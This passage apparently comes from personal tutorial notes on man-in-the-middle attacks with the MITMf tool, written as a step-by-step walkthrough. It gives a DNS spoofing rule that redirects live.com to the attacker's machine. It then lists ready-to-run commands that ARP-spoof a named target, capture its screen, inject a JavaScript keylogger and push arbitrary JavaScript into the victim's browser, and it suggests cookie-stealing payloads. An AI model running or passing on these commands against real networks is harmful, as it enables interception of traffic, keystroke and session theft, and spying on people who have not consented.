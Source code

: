 This is A records and these are responsible for translating domain to ip.

*.live.com=10.20.14.201 --->> This line means any subdomain to live.com should be redirected to 10.20.14.201. Thats our own ip by default. We can put any other ip there and the requests will be redirected there.

▶️> mitmf --arp --spoof --gateway 10.20.1.71 --target 10.20.14.206 -i eth0 --dns


Now the dns spoofing is started. So according to our config, if we go to live.com we will be redirected to our local ip, so the apache2 page in the /var/www/http will be displayed.

So we can modify and replace the values.
-------------------------

NOW LETS USE SOME PLUGINS IN MITMF JUST FOR FAMILIARIZE WITH IT:

▶️> mitmf --arp --spoof --gateway 10.20.1.71 --target 10.20.14.206 -i eth0 --screen --intervel 10 (Take screen short of the target machine every 10 sec)

▶️> mitmf --arp --spoof --gateway 10.20.1.71 --target 10.20.14.206 -i eth0 --screen (take screen shorts continuesly)

[screenshorts will be in /var/log/mitmf]


Plugins can be found with just mitmf --help, use it like this.


▶️> mitmf --arp --spoof --gateway 10.20.1.71 --target 10.20.14.206 -i eth0 --jskeylogger (Another plugin to inject a key logger)

----------------------------


CODE INJECTION.......

---------------------

Lets see how to inject javascript code to target browser(We can use the same method to inject html code)


▶️> mitmf --arp --spoof -i eth0 --gateway 10.20.1.71 --targets 10.20.14.206 --inject --js-payload "alert('test');"

This will display an alert popup when target browses any webpage.

Just google for javascript payloads like screeshort, redirecter, steal cookies....

It will be hard to write it through the command. so we can put it in a file and use it:


make a .js file > put the javascript/html code there and save it >>

▶️> mitmf --arp --spoof -i eth0 --gateway 10.20.1.71 --targets 10.20.14.206 --inject --js-file /root/filename.js (Just makesure to put the full path)


[Note: its only possible to inject js to http pages. Anyway there are methods, lets cover it in advanced part]

---------------------
